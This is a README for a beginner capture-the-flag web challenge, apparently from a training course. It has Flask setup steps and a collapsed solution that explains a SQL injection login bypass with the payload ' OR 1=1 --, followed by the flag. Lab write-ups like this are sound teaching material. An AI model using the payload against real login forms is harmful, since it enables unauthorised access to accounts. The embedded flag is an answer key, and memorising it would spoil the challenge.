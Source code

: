 # Euro 2024
### 📄 Description
Bring it home guys

### ⚙ How to run
Before running anything, you need to create the database. Follow these steps:
``` bash
$ cd webapp
$ export FLASK_ENV=development
$ export FLASK_APP=app
```
And run the local server with:
```bash
$ flask run
```
You should see in the command output the link to the page
If you can't find it, it should be at: http://127.0.0.1:5000/

The description of the challenge itself is on the webpage.

### ⛔ Rules
In this challenge you `CANNOT` look at the `webapp` folder!

In order to get the points of this challenge, you need to provide a detailed description of the procedure that you used to get the flag.

Otherwise we account for the flag as read by the web application folder itself.


<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

As we can see from the webpage's tab, we can try with an SQL injection. 

We can put anything as `username`, and for the `password`:
```plaintext
' OR 1=1 --
```
So, if the query were something like this
```sql
SELECT id, username FROM users WHERE username='user' AND password='password'
```
the resulting query would be 
``` sql
SELECT id, username FROM users WHERE username='user' AND password='' OR 1=1 --
```
The `--` comments out everything that follows on the same line, making the query effective. Since 1=1 is always true, the condition `OR 1=1` will always return `TRUE`, and thus the query will return the user with the username `user` regardless of the password.

<h3> 🚩 Flag </h3>

```plaintext
spritz{is_coming_Rome}
```
</details>
